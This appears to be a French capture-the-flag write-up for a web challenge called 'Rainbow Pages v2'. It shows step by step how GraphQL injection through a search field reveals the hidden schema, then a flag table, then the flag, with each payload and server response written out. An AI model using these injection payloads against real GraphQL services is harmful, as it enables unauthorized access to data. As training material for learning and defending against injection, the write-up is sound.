 # Rainbow Pages v2

**500 points**

## Enoncé

La première version de notre plateforme de recherche de cuisiniers présentait quelques problèmes de sécurité. Heureusement, notre développeur ne compte pas ses heures et a corrigé l'application en nous affirmant que plus rien n'était désormais exploitable. Il en a également profiter pour améliorer la recherche des chefs.

Pouvez-vous encore trouver un problème de sécurité ?

## Ma solution

J'utilise BurpSuite Community pour ce challenge.
Je commence par me demander quelle est la forme de la requête GraphQL. Je vois qu'en entrant des caractères erronés, l'erreur semble dupliquée : on a 2 points d'injection.
Je remarque aussi que les résultats de nos recherches correspondent au nom OU prénom des gens.
En prenant exemple sur RainbowPages 1, je suppose que la query est (sur une seule ligne):
```JSON
{
	allCooks (filter: {or:[ {firstname: {like: "%_____%"}}, {lastname: {like: "%_____%"}}]}) {
		nodes {
			firstname,
			lastname,
			speciality,
			price
		}
	}
}
```
On peut donc injecter le payload `"}}]}) {nodes { firstname }}} #` (# permet de faire des commentaires en GraphQL) pour vérifier cette supposition, et on obtient un résultat valide : la forme est bonne !
On regarde le schema de la base de données : `"}}]}) {nodes { firstname }} __schema { types {name} }} #`
```JSON
"__schema":{"types":[{"name":"Query"},{"name":"Node"},{"name":"ID"},{"name":"Int"},
{"name":"Cursor"},{"name":"CooksOrderBy"},{"name":"CookCondition"},{"name":"String"},
{"name":"CookFilter"},{"name":"IntFilter"},{"name":"Boolean"},{"name":"StringFilter"},
{"name":"CooksConnection"},{"name":"Cook"},{"name":"CooksEdge"},{"name":"PageInfo"},
{"name":"FlagNotTheSameTableNamesOrderBy"},{"name":"FlagNotTheSameTableNameCondition"},
{"name":"FlagNotTheSameTableNameFilter"},{"name":"FlagNotTheSameTableNamesConnection"},
{"name":"FlagNotTheSameTableName"},{"name":"FlagNotTheSameTableNamesEdge"},{"name":"__Schema"},
{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},
{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```
Maintenant, on essaie d'obtenir le flag : on essaie la requête `flagNotTheSameTableNamesOrderBy`,
l'erreur nous aiguille (`did you mean flagNotTheSameTableNameById ?`) vers la requête `flagNotTheSameTableNameById`.
On obtient le `nodeId` de l'élément d'indice 1 avec la requête : `"}}]}) {nodes { firstname }} query { flagNotTheSameTableNameById(id:1) { nodeId }}} #`
La réponse nous donne
```JSON
"query":{"flagNotTheSameTableNameById":{"nodeId":"WyJmbGFnX25vdF90aGVfc2FtZV90YWJsZV9uYW1lcyIsMV0="}}}}
```
En le décodant en base64, on obtient `["flag_not_the_same_table_names",1]`
On teste les indices autour; rien de probant.

Maintenant on tente une requête vers ce nouveau nom :

`"}}]}) {nodes { firstname }} query { flagNotTheSameTableName(nodeId:"WyJmbGFnX25vdF90aGVfc2FtZV90YWJsZV9uYW1lcyIsMV0=") { flag_not_the_same_table_names} }} #`

L'erreur nous redirige vers la requête finale :

`"}}]}) {nodes { firstname }} query { flagNotTheSameTableName(nodeId:"WyJmbGFnX25vdF90aGVfc2FtZV90YWJsZV9uYW1lcyIsMV0=") { flagNotTheSameFieldName } }} #`

qui nous **sortira le flag !**
